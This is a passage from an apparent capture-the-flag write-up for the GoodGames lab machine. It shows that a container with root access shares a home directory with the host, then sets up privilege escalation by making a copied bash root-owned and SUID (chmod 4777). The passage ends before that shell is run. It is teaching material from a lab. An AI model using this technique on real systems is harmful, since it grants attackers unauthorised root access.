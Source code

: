 Augustus’ home directory looks the same as what I saw in the container:

    augustus@GoodGames:~$ ls --full-time -a
    total 28
    drwxr-xr-x 3 augustus augustus 4096 2022-05-22 22:40:44.469153480 +0100 .
    drwxr-xr-x 3 root     root     4096 2021-10-19 12:16:19.584362980 +0100 ..
    lrwxrwxrwx 1 root     root        9 2021-11-03 10:16:57.590030244 +0000 .bash_history -> /dev/null
    -rw-r--r-- 1 augustus augustus  220 2021-10-19 12:16:19.588362980 +0100 .bash_logout
    -rw-r--r-- 1 augustus augustus 3526 2021-10-19 12:16:19.588362980 +0100 .bashrc
    drwx------ 3 augustus augustus 4096 2022-05-22 22:41:59.061153480 +0100 .gnupg
    -rw-r--r-- 1 augustus augustus  807 2021-10-19 12:16:19.588362980 +0100 .profile
    -rw-r----- 1 root     augustus   33 2022-05-22 18:15:17.865153480 +0100 user.txt


    root@3a453ab39d3d:~# ls --full-time -a
    total 28
    drwx------ 1 root root 4096 2022-05-22 21:16:41.105153480 +0000 .
    drwxr-xr-x 1 root root 4096 2021-11-05 15:23:36.346519559 +0000 ..
    lrwxrwxrwx 1 root root    9 2021-11-05 15:28:48.128896275 +0000 .bash_history -> /dev/null
    -rw-r--r-- 1 root root  570 2010-01-31 11:52:26.000000000 +0000 .bashrc
    drwx------ 3 root root 4096 2021-11-05 15:23:27.000000000 +0000 .cache
    drwx------ 3 root root 4096 2022-05-22 20:52:55.029153480 +0000 .gnupg
    -rw-r--r-- 1 root root  148 2015-08-17 15:30:33.000000000 +0000 .profile
    drwx------ 2 root root 4096 2022-05-22 21:16:46.581153480 +0000 .ssh

The file sizes and times are exactly the same (almost - I cannot explain why three of the files are off by an hour). If I create a file on the host:

    augustus@GoodGames:~$ touch test

It shows up on the container:

    root@3a453ab39d3d:/home/augustus# ls -l from_host 
    -rw-r--r-- 1 1000 1000 0 May 22 22:08 from_host

And it works the other way:

    root@3a453ab39d3d:/home/augustus# touch from_container

It shows up on the host:

    augustus@GoodGames:~$ ls -l from_container 
    -rw-r--r-- 1 root root 0 May 22 23:11 from_container

Interestingly, the file created from the container is owned by root, and the host treats it as it’s root !

### 4.2 Shell
#
I copy /bin/bash into augustus’ home directory on the host. It’s important to use bash from the host (otherwise there will be errors in the execution)

    augustus@GoodGames:~$ cp /bin/bash .

Then in the container, I’ll change the owner to root, and set the permissions to be SUID:

    root@3a453ab39d3d:/home/augustus# ls -l bash 
    -rwxr-xr-x 1 1000 1000 1234376 May 22 22:20 bash
    root@3a453ab39d3d:/home/augustus# chown root:root bash
    root@3a453ab39d3d:/home/augustus# chmod 4777 bash
    root@3a453ab39d3d:/home/augustus# ls -l bash 
    -rwsrwxrwx 1 root root 1234376 May 22 22:20 bash
